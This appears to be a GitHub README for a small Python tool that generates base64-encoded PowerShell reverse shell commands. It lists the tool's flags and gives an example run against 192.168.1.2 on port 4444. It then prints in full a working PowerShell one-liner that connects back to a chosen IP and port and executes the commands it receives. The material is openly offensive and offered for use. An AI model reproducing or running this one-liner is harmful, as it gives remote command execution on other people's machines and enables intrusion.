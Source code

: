 # psh_reverse_OneLine
Generate the command to make a powershell revershell (the one liner encoded in base64)

syntax:
	--help or -h	print manual
	--ip or -i	specify IP
	--port or -p	specify port
Example:
	python3 psh_reverse_OneLine.py -i 192.168.1.2 -p 4444
	
FYI, the powershell reverse shell one liner as below:
$client = New-Object System.Net.Sockets.TCPClient("<your IP>", <your port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

